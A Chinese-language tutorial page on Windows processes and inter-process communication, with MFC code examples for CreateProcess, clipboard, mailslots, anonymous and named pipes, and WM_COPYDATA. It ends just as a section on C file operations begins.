操作系统用来管理进程的内核对象内核对象是操作系统用来存放关于进程的统计信息的地方； 内核对象是在操作系统内部，分配的一个内存块，该内存块是一种数据结构，其成员负责维护该对象的各种信息。 地址空间：它包含所有可执行模块或DLL模块的代码和数据。另外，它也包含动态内存分配的空间，例如线程的栈和堆分配空间。 📋需要注意的另一点：进程从来不执行任何东西，它只是纯粹的容器。 若要完成某项操作，它必须拥有一个在它的环境中运行的线程，此线程负责执行包含在进程的地址空间的中的代码。也就是说，真正完成代码执行的是线程，而进程只是纯粹的容器，或者说是线程的执行环境。
子进程，还是一个进程；子进程指的是由另一进程【对应的父进程】所创建的进程； 单任务的同步机制：线程，子进程，需要保护地址空间； 子进程的线程既可以在父进程终止之后执行我们的代码；也可以在父进程运行的过程中执行代码。 8.2 如何创建一个进程 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 BOOL CreateProcessW ( _In_opt_ LPCWSTR lpApplicationName, _Inout_opt_ LPWSTR lpCommandLine, _In_opt_ LPSECURITY_ATTRIBUTES lpProcessAttributes, _In_opt_ LPSECURITY_ATTRIBUTES lpThreadAttributes, _In_ BOOL bInheritHandles, _In_ DWORD dwCreationFlags, _In_opt_ LPVOID lpEnvironment, _In_opt_ LPCWSTR lpCurrentDirectory, _In_ LPSTARTUPINFOW lpStartupInfo, _Out_ LPPROCESS_INFORMATION lpProcessInformation )
在线查windows文档：微软的帮助文档网址
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 #include <windows.h> #include <stdio.h> #include <tchar.h> int RunExe () TCHAR szCommandLine[] = L"\"C:\\Program Files (x86)\\Google\\Chrome\\Application\\chrome.exe\" http://www.baidu.com/" ; STARTUPINFOW strStartupInfo; memset (&strStartupInfo, 0 , sizeof (STARTUPINFOW)); strStartupInfo.cb = sizeof (strStartupInfo); PROCESS_INFORMATION szProcessInformation; memset (&szProcessInformation, 0 , sizeof (szProcessInformation)); int bRet = CreateProcess ( NULL , szCommandLine, NULL , NULL , FALSE, CREATE_NEW_CONSOLE, NULL , NULL , &strStartupInfo, &szProcessInformation ); if (bRet) { printf ("Create Success bRet\n" ); WaitForSingleObject (szProcessInformation.hProcess, 3000 ); printf ("hProcess=%d\n" , szProcessInformation.hProcess); printf ("hThread=%d\n" , szProcessInformation.hThread); CloseHandle (szProcessInformation.hProcess); CloseHandle (szProcessInformation.hThread); szProcessInformation.dwProcessId = 0 ; szProcessInformation.dwThreadId = 0 ; szProcessInformation.hThread = NULL ; szProcessInformation.hProcess = NULL ; } else { printf_s ("Create Failed bRet = %d\n" , bRet); printf_s ("errorcode = %d\n" , GetLastError ()); } return bRet; } int main () printf ("This is Chrome!\n" ); RunExe (); system ("pause" ); return 0 ; }
8.3 进程间通信方式 socket编程【IP和端口 | server client】剪切板【剪切板的内核对象】 邮槽【邮槽的内核对象，较原始，目前用的少】 匿名管道【无名管道】 命名管道 Copy_data findwindows wm_copydata 很多书籍都没有 消息 Sendmessage
8.4 进程间通信方式之剪切板 第一次接触MFC，简单记录入门用法
首先获取MFC开发包【工具 | 获取工具和功能 | 单个组件：搜索MFC，选择最新v143生成工具的C++ MFC，勾选下载时安装，点击修改】，然后创建MFC应用，选择基于对话框的应用。 设置该项目为启动项，编译运行出现对话框。 点击资源文件中的rc文件，出现资源视图，选择【MFCApplication_clip.rc | Dialog | IDD_MFCAPPLICATION_CLIP_DIALOG】，即可使用工具箱编辑对话框。 其中，用到的技巧有以下：
选中后按Delete键，删除所选控件； 选中后按Ctrl键，复制所选控件； 选中控件，右键属性可编辑修改Caption【描述文字】字段为【发送 | 接受】 修改四个控件的ID字段 双击控件，自动实现事件代码

在以下代码中，系统维护管理的一块内存区域，用于发送和接受。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 void CMFCApplicationclipDlg::OnBnClickedButtonSend () if (OpenClipboard ()) { EmptyClipboard (); char * szSendBuf; CStringA strSend; GetDlgItemText (IDC_EDIT_SEND, strSend); HANDLE hClip = GlobalAlloc (GMEM_MOVEABLE, strSend.GetLength () + 1 ); szSendBuf = (char *)GlobalLock (hClip); strcpy (szSendBuf, strSend); GlobalUnlock (hClip); SetClipboardData (CF_TEXT, hClip); CloseClipboard (); } } #include <stdio.h> void CMFCApplicationclipDlg::OnBnClickedButtonRecv () if (OpenClipboard ()) { if (IsClipboardFormatAvailable (CF_TEXT)) { char * szRecvBuf; HANDLE hclip = GetClipboardData (CF_TEXT); szRecvBuf = (char *)GlobalLock (hclip); SetDlgItemTextA (IDC_EDIT_RECV, szRecvBuf); GlobalUnlock (hclip); CloseClipboard (); } } }
8.5 进程间通信方式之邮槽 邮槽是早期的进程通信方式，目前已经很少用。【邮槽的内核对象】
使用邮槽通信的进程分为服务端和客户端。 邮槽由服务端创建，在创建时需要指定邮槽名，创建后服务端得到邮槽的句柄。 在邮槽创建后，客户端可以通过邮槽名打开邮槽，在获得句柄后可以向邮槽写入消息。 需要注意的是：
邮槽通信是单向的，只有服务端才能从邮槽中读取消息，客户端只能写入消息。消息是先入先出的【客户端先写入的消息，在服务端先被读取】。
通过邮槽通信的数据可以是任意格式的，但是一条消息不能大于424字节。
邮槽除了在本机内进行进程间通信外，在主机间也可以通信。但是在主机间进行邮槽通信，数据通过网络传播时使用的是数据报协议【UDP】，所以是一种不可靠的通信。通过网络进行邮槽通信时，客户端必须知道服务端的主机名或域名。
示例： 首先创建一个MFC服务端，然后在同一个解决方案中创建新的MFC项目客户端，并实现邮槽通信
点击服务端接收，创建邮槽并无限等待；再点击客户端发送，服务端接到消息，触发MessageBox。

📋服务端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 void CMFCAppmailslotserverDlg::OnBnClickedRecv () LPCTSTR szSlotName = TEXT ("\\\\.\\mailslot\\Mymailslot" ); HANDLE hSlot = CreateMailslot ( szSlotName, 0 , MAILSLOT_WAIT_FOREVER, NULL ); if (hSlot == INVALID_HANDLE_VALUE) { TRACE ("CreateMailslot failed with %d\n" , GetLastError ()); return ; } char szBuf[100 ] = { 0 }; DWORD dwRead; if (!ReadFile (hSlot, szBuf, 100 , &dwRead, NULL )) { MessageBox ("Read Failed!" ); CloseHandle (hSlot); return ; } TRACE ("############## dwRead = %d ########\n" , dwRead); MessageBox (szBuf); CloseHandle (hSlot); }
📋客户端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 void CMFCAppmailslotclientDlg::OnBnClickedSend () LPCTSTR szSlotName = TEXT ("\\\\.\\mailslot\\Mymailslot" ); HANDLE hMailSlot = CreateFile (szSlotName, FILE_GENERIC_WRITE, FILE_SHARE_READ, NULL , OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL ); if (hMailSlot == INVALID_HANDLE_VALUE) { TRACE ("CreateFile failed with %d\n" , GetLastError ()); return ; } char szBuf[100 ] = { "Mail Slot coming" }; DWORD dwWrite; if (!WriteFile (hMailSlot, szBuf, strlen (szBuf) + 1 , &dwWrite, NULL )) { MessageBox ("写入数据失败" ); CloseHandle (hMailSlot); return ; } CloseHandle (hMailSlot); }
8.6 进程间通信方式之匿名管道 匿名管道是一个没有命名的单向管道，本质上就是一个共享的内存区域。
需要注意的是：
通常用来在父进程和子进程之间通信； 只能实现本地两个进程之间的通信； 不能实现网络通信。 1 2 3 4 5 6 7 bool CreatePipe ( _Out_ PHANDLE hReadPipe, _Out_ PHANDLE hWritePipe, _In_opt_ LPSECURITY_ATTRIBUTES lpPipeAttributes, _In_ DWORD nSize )
示例： 【基于上一节的客户端服务端，服务端新增3个按钮，客户端新增两个按钮】在服务端可创建子进程【即客户端】，然后创建匿名管道。任意端点击发送，另一端接收。

📋服务端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 HANDLE hReadPipe; HANDLE hWritePipe; void CMFCAppmailslotserverDlg::OnBnClickedCreateProcess () SECURITY_ATTRIBUTES sa; sa.bInheritHandle = TRUE; sa.lpSecurityDescriptor = NULL ; sa.nLength = sizeof (SECURITY_ATTRIBUTES); if (!CreatePipe (&hReadPipe, &hWritePipe, &sa, 0 )) { MessageBox ("匿名管道创建失败" ); return ; } STARTUPINFO strStartupInfo; memset (&strStartupInfo, 0 , sizeof (strStartupInfo)); strStartupInfo.cb = sizeof (strStartupInfo); strStartupInfo.dwFlags = STARTF_USESTDHANDLES; strStartupInfo.hStdInput = hReadPipe; strStartupInfo.hStdOutput = hWritePipe; strStartupInfo.hStdError = GetStdHandle (STD_ERROR_HANDLE); PROCESS_INFORMATION szProcessInformation; memset (&szProcessInformation, 0 , sizeof (szProcessInformation)); int iRet = CreateProcess ( "MFCApp_mailslot_client.exe" , NULL , NULL , NULL , TRUE, 0 , NULL , NULL , &strStartupInfo, &szProcessInformation ); if (iRet) { CloseHandle (szProcessInformation.hProcess); CloseHandle (szProcessInformation.hThread); szProcessInformation.dwProcessId = 0 ; szProcessInformation.dwThreadId = 0 ; szProcessInformation.hThread = NULL ; szProcessInformation.hProcess = NULL ; } else { CloseHandle (hReadPipe); CloseHandle (hWritePipe); hReadPipe = NULL ; hWritePipe = NULL ; MessageBox ("创建子进程失败" ); return ; } } void CMFCAppmailslotserverDlg::OnBnClickedRecv2 () char szBuf[100 ] = { 0 }; DWORD dwRead; TRACE ("Begin Read:\n" ); if (!ReadFile (hReadPipe, szBuf, 100 , &dwRead, NULL )) { MessageBox ("Read Failed!" ); CloseHandle (hReadPipe); return ; } TRACE ("############## dwRead = %d ########\n" , dwRead); MessageBox (szBuf); } void CMFCAppmailslotserverDlg::OnBnClickedSend2 () char szBuf[100 ] = { "Unnamed Pipe coming from server" }; DWORD dwWrite; if (!WriteFile (hWritePipe, szBuf, strlen (szBuf) + 1 , &dwWrite, NULL )) { MessageBox ("写入数据失败" ); CloseHandle (hWritePipe); return ; } }
📋客户端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 HANDLE hReadPipe; HANDLE hWritePipe; void CMFCAppmailslotclientDlg::OnBnClickedSendBtn () hWritePipe = GetStdHandle (STD_OUTPUT_HANDLE); char szBuf[100 ] = { "Unnamed Pipe coming from client" }; DWORD dwWrite; if (!WriteFile (hWritePipe, szBuf, strlen (szBuf) + 1 , &dwWrite, NULL )) { MessageBox ("写入数据失败" ); CloseHandle (hWritePipe); return ; } } void CMFCAppmailslotclientDlg::OnBnClickedRecvBtn () hReadPipe = GetStdHandle (STD_INPUT_HANDLE); char szBuf[100 ] = { 0 }; DWORD dwRead; TRACE ("Begin Read:\n" ); if (!ReadFile (hReadPipe, szBuf, 100 , &dwRead, NULL )) { MessageBox ("Read Failed!" ); CloseHandle (hReadPipe); return ; } TRACE ("############## dwRead = %d ########\n" , dwRead); MessageBox (szBuf); }
8.7 进程间通信方式之命名管道 与 Socket 相似，支持网络之间不同进程的通信，用于双向通信。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 HANDLE CreateNamedPipeA ( LPCSTR lpName, DWORD dwOpenMode, DWORD dwPipeMode, DWORD nMaxInstances, DWORD nOutBufferSize, DWORD nInBufferSize, DWORD nDefaultTimeOut, LPSECURITY_ATTRIBUTES lpSecurityAttributes ) BOOL ConnectNamedPipe ( HANDLE hNamedPipe, LPOVERLAPPED lpOverlapped ) WaitNamedPipe (szNamedPipeName, NMPWAIT_WAIT_FOREVER);
示例： 【基于匿名管道的客户端服务端，服务端新增3个按钮，客户端新增3个按钮】在服务端可创建命名管道并等待客户端连接，然后在客户端连接匿名管道。只要不关闭命名管道，可在任意端点击发送，另一端接收。

📋服务端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 HANDLE hNamedPipe; void CMFCAppmailslotserverDlg::OnBnClickedCreateNamePipe () LPCTSTR szPipeName = TEXT ("\\\\.\\pipe\\mypipe" ); hNamedPipe = CreateNamedPipe (szPipeName, PIPE_ACCESS_DUPLEX | FILE_FLAG_OVERLAPPED, PIPE_TYPE_BYTE, 1 , 1024 , 1024 , 0 , NULL ); if (hNamedPipe == INVALID_HANDLE_VALUE) { TRACE ("CreateNamedhPipe failed with %d\n" , GetLastError ()); MessageBox ("创建命名管道失败" ); return ; } HANDLE hEvent = CreateEvent (NULL , TRUE, FALSE, NULL ); if (NULL == hEvent) { MessageBox ("创建事件失败" ); CloseHandle (hNamedPipe); hNamedPipe = NULL ; return ; } OVERLAPPED ovlap; ZeroMemory (&ovlap, sizeof (OVERLAPPED)); ovlap.hEvent = hEvent; if (!ConnectNamedPipe (hNamedPipe, &ovlap)) { if (ERROR_IO_PENDING != GetLastError ()) { MessageBox ("等待客户端连接失败" ); CloseHandle (hNamedPipe); CloseHandle (hEvent); hNamedPipe = NULL ; hEvent = NULL ; return ; } } if (WaitForSingleObject (hEvent, INFINITE) == WAIT_FAILED) { MessageBox ("等待对象失败" ); CloseHandle (hNamedPipe); CloseHandle (hEvent); hNamedPipe = NULL ; hEvent = NULL ; return ; } MessageBox ("连接成功" ); } void CMFCAppmailslotserverDlg::OnBnClickedSendName () char szBuf[100 ] = { "Named Pipe coming from Server" }; DWORD dwWrite; if (!WriteFile (hNamedPipe, szBuf, strlen (szBuf) + 1 , &dwWrite, NULL )) { MessageBox ("写入数据失败" ); CloseHandle (hWritePipe); return ; } } void CMFCAppmailslotserverDlg::OnBnClickedRecvName () char szBuf[100 ] = { 0 }; DWORD dwRead; TRACE ("Begin Read:\n" ); if (!ReadFile (hNamedPipe, szBuf, 100 , &dwRead, NULL )) { MessageBox ("Read Failed!" ); CloseHandle (hReadPipe); return ; } TRACE ("############## dwRead = %d ########\n" , dwRead); MessageBox (szBuf); }
📋客户端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 HANDLE hNamedPipe; void CMFCAppmailslotclientDlg::OnBnClickedConnectPipe () LPCTSTR szNamedPipeName = TEXT ("\\\\.\\pipe\\mypipe" ); if (0 == WaitNamedPipe (szNamedPipeName, NMPWAIT_WAIT_FOREVER)) { MessageBox ("当前没有可以利用的管道" ); return ; } hNamedPipe = CreateFile (szNamedPipeName, GENERIC_READ | GENERIC_WRITE, 0 , NULL , OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL ); if (hNamedPipe == INVALID_HANDLE_VALUE) { TRACE ("CreateFile failed with %d\n" , GetLastError ()); MessageBox (_T("打开命名管道失败！" )); hNamedPipe = NULL ; return ; } MessageBox ("连接成功" ); } void CMFCAppmailslotclientDlg::OnBnClickedSendNameBtn () char szBuf[100 ] = { "Named Pipe coming from client" }; DWORD dwWrite; if (!WriteFile (hNamedPipe, szBuf, strlen (szBuf) + 1 , &dwWrite, NULL )) { MessageBox ("写入数据失败" ); CloseHandle (hWritePipe); return ; } } void CMFCAppmailslotclientDlg::OnBnClickedRecvNameBtn () char szBuf[100 ] = { 0 }; DWORD dwRead; TRACE ("Begin Read:\n" ); if (!ReadFile (hNamedPipe, szBuf, 100 , &dwRead, NULL )) { MessageBox ("Read Failed!" ); CloseHandle (hReadPipe); return ; } TRACE ("############## dwRead = %d ########\n" , dwRead); MessageBox (szBuf); }
8.8 进程间通信方式之WM_COPYDATA WM_COPYDATA【WM：Windows Message】，即使用 SendMessage函数发送WM_COPYDATA消息。
【WM_COPYDATA在进程间通信用的最多】
1 2 3 4 5 6 7 8 9 10 11 12 13 14 SendMessageA ( _In_ HWND hWnd, _In_ UINT Msg, _Pre_maybenull_ _Post_valid_ WPARAM wParam, _Pre_maybenull_ _Post_valid_ LPARAM lParam ); typedef struct tagCOPYDATASTRUCT { ULONG_PTR dwData; DWORD cbData; PVOID lpData; } COPYDATASTRUCT, *PCOPYDATASTRUCT;
🔺必备工具【SPY++工具】专门用来查找窗口句柄【窗口搜索，拖动指针即可获得窗口句柄】
要给进程发数据，首先要拿到进程的窗口句柄 ，而窗口句柄由标题 查找得到。
示例： 【基于命名管道的客户端服务端，服务端新增1个按钮，客户端新增1个按钮】在服务端可创建命名管道并等待客户端连接，然后在客户端连接匿名管道。只要不关闭命名管道，可在任意端点击发送，另一端接收。

📋发送端【写在服务端】
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 void CMFCAppmailslotserverDlg::OnBnClickedSendCopydata () CString strWindowsTitle = _T("客户端" ); CString strMsg = _T("COPYDATA is coming" ); HWND hWnd = ::FindWindow (NULL , strWindowsTitle.GetBuffer (0 )); if (hWnd != NULL && IsWindow (hWnd)) { COPYDATASTRUCT cpd; cpd.dwData = 0 ; cpd.cbData = strMsg.GetLength () * sizeof (TCHAR); cpd.lpData = (PVOID)strMsg.GetBuffer (0 ); ::SendMessage (hWnd, WM_COPYDATA, (WPARAM)(AfxGetApp ()->m_pMainWnd), (LPARAM)&cpd); } strWindowsTitle.ReleaseBuffer (); strMsg.ReleaseBuffer (); }
📋接收端【写在客户端】
在Dialog设计页面，右击菜单选择【类向导】，在消息中查找 WM_COPYDATA，双击添加【即自动监测COPYDATA消息】 在自动生成的函数中编写代码

1 2 3 4 5 6 7 8 9 10 11 12 13 14 BOOL CMFCAppmailslotclientDlg::OnCopyData (CWnd* pWnd, COPYDATASTRUCT* pCopyDataStruct) LPCTSTR szText = (LPCTSTR)(pCopyDataStruct->lpData); DWORD dwLength = (DWORD)pCopyDataStruct->cbData; TCHAR szRecvText[1024 ] = { 0 }; memcpy (szRecvText, szText, dwLength); MessageBox (szRecvText, _T("Bingo" ), MB_OK); return CDialogEx::OnCopyData (pWnd, pCopyDataStruct); }
8.9 进程间通信方式的比较 剪贴板比较简单；剪切板和匿名管道只能实现同一机器的两个进程通信，而不能实现网络进程之间的通信。
邮槽是基于广播的，可以一对多发送；但只能一个发送，一个接收，要想同时发送接收，须各创建一次邮槽。邮槽的缺点传输的数据量很小 424字节以下。
命名管道和邮槽可以进行网络通信；命名管道只能是点对点的单一通信。
WM_COPY_DATA 封装数据和解析数据，非常方便。但如果数据量大，建议用命名管道。
九 文件操作 日志、操作配置文件【ini】、注册表、音视频的文件存储；而且，Linux下一切皆文件！
9.1 C/C++操作文件 9.1.1 C语言操作文件 第一步：打开文件
1 2 3 4 5 6 7 8 9 10 _ACRTIMP FILE* __cdecl fopen ( _In_z_ char const * _FileName, _In_z_ char const * _Mode ) ;_ACRTIMP errno_t __cdecl fopen_s ( _Outptr_result_nullonfailure_ FILE** _Stream, _In_z_ char const * _FileName, _In_z_ char const * _Mode ) ;
下表列出了文件打开的模式：
文件打开模式 意义 r 【只读】为读取而打开，如果文件不存在或不能找到，函数调用失败 w 【重新写】为写入操作打开一个空文件。如果给定的文件已经存在，那么它的内容将被消空 a 【追加】为写入操作打开文件。如果文件已经存在，那么在该文件尾部添加新数据，在写入新的数之前，不会移除文件中已有的EOF标记；如果文件不存在，那么首先创建这个文件 r+ 【文件必须存在】打开文件用于写入操作和读取操作 w+ 为写入操作和读取操作打开一个空的文件。如果给定文件已经存在，那么它的内容将被清空 a+ 打开文件用于读取操作和添加操作。并且，添加操作在添加新数据之前会移除该文件中已有的 EOF标记，然后当写入操作完成之后再恢复EOF标记。如果指定文件不存在，那么首先将创建这个文件
写文件 | 读文件 | 确定文件偏移量：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 _ACRTIMP size_t __cdecl fwrite ( _In_reads_bytes_(_ElementSize * _ElementCount) void const * _Buffer, _In_ size_t _ElementSize, _In_ size_t _ElementCount, _Inout_ FILE* _Stream ) ;_ACRTIMP size_t __cdecl fread ( _Out_writes_bytes_(_ElementSize * _ElementCount) void * _Buffer, _In_ size_t _ElementSize, _In_ size_t _ElementCount, _Inout_ FILE* _Stream ) ;_ACRTIMP int __cdecl fseek ( _Inout_ FILE* _Stream, _In_ long _Offset, _In_ int _Origin ) ;#define SEEK_CUR 1 #define SEEK_END 2 #define SEEK_SET 0 _ACRTIMP long __cdecl ftell ( _Inout_ FILE* _Stream ) ;
📋C语言读写示例：
